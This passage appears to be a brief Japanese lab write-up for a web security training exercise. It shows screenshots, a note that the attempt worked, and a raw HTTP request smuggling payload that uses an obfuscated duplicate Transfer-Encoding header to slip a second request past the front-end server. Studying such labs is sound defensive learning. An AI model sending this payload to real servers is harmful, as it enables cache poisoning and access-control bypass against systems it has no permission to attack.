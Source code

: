 ![](./images/README_231013_170904.png)

![](./images/README_231013_170934.png)

うまく行きました。

```text
POST / HTTP/1.1
Host: 0a4d00d603ce8c8c80c1a37600a80067.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: x

5e
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

body=
```